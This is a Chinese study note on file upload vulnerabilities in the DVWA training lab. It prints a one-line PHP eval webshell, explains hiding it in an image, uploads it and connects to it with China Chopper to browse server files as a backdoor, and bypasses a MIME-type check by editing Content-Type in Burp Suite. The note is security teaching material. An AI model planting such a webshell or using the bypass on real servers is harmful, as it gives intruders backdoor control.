 ```yaml
---
title: 4-文件上传漏洞low/medium
updated: 2020-08-28T10:00:39.0000000+08:00
created: 2020-08-22T12:00:24.0000000+08:00
---
```


## 一、基本介绍
1，SQL注入--攻击的是网站的数据库
XSS--跨站脚本攻击--攻击用户,
2，文件上传漏洞--后台 网站基本都有文件上传功能
SQL注入和文件上传漏洞联合使用
web网站的功能--开发工程师开发的
开发工程师在开放功能的生活，没有考虑到安全性--功能引起漏洞
3，文件上传功能--本身是合法的，正常的
<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th><p>上传正常文件：图片、文档、视频、音频</p>
<p>上传非正常文件：木马</p>
<p>木马--具有攻击性的脚本文件</p>
<p>Php/jsp/asp/aspx…</p>
<p>php木马：就是由php语言写出来的，具有攻击性的脚本文件</p></th>
</tr>
</thead>
<tbody>
</tbody>
</table>
4，木马：
大马：脚本量比较大，一般是经过了多次编译后的脚本文件
小马：一句话木马--脚本量比较小，只有一句话
| \<?php @eval(\$\_POST\['1'\]);?\> |
|-----------------------------------|
图片马：把木马隐藏在图片里
把木马放进图片里，得到822.png
![image1](../../assets/f3c3eb1b2040418995b0d44cf1b2abcf.png)

## 二、DVWA中low安全等级的文件上传
1、准备图片pic.png、木马1.php、文档1.txt

2、上传测试
正常图片上传成功
<http://192.168.2.166/DVWA-master/hackable/uploads/pic.png>
![image2](../../assets/a815ec761af74f5983ef457ef9a7b561.png)
../../hackable/uploads/pic.png是路径，可以直接访问

*而文本上也传成功*
<http://192.168.2.166/DVWA-master/hackable/uploads/test.txt>
![image3](../../assets/31213cd1b9ed4976bf35641863c69714.png)
带木马的图片上传成功
<http://192.168.2.166/DVWA-master/hackable/uploads/822.png>
![image4](../../assets/a51879d71e654073acac4f65d42b3ce3.png)
上传木马
<http://192.168.2.166/DVWA-master/hackable/uploads/1.php>
![image5](../../assets/fc9874f7fde24f3d8887b7b89bfd924f.png)

如果木马文件可以上传，说明这个网站有存在文件上传漏洞
利用木马
通过工具来利用--工具：中国菜刀--连接木马文件
3、中国菜刀的使用
把一句话木马文件的路径添加到中国菜刀中
![image6](../../assets/a8ef47cd3aab4d208fcac702a191ef82.png)
点击进入文件管理
此时是用菜刀借助木马连接了服务器
可以操作里面的文件
![image7](../../assets/a772052b4d234528b77da382b7305e9c.png)
留下木马，作为【后门】，下一次再借助这个木马进入服务器

## 三、DVWA中medium安全等级的文件上传
中安全等级，虽然在上传时有了条件限制，在要求上传图片的条件下无法上传木马，但是依旧不安全。（例如，可以上传带木马的图片）
利用BurpSuite
1、上传木马
![image8](../../assets/5fbd3f33a824497b9a0480268a527e92.png)
2、用BurpSuite
![image9](../../assets/28477169f7f344bbb78f7ed4351bcdba.png)
点击action
![image10](../../assets/bf285176fd814cd294f5dbab49f11d69.png)
点击Go，模拟过程把数据包发送给客户端
![image11](../../assets/9f1cfd7cfc384b03a47218fffeb2fb88.png)
可以理解为：左边客户端，右边服务端
3、解决方法
![image12](../../assets/1b5afe3d19d6408eb02d3f4208f7ad11.png)
对此处进行修改
<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th><p>Content-Type: application/octet-stream--脚本文件的MIME类型</p>
<p>Content-Type: image/jpeg图片的MIME类型</p>
<p>服务器会检测MIME类型</p></th>
</tr>
</thead>
<tbody>
</tbody>
</table>
![image13](../../assets/3621b1aa57e64e67a1468eebf9edd57e.png)

回到intercept
![image14](../../assets/c5133aaa09e642aba650348562297d14.png)
forward一下
![image15](../../assets/9bb3d99ac7e041cfb7f8bbf2ed5dc8db.png)
上传成功

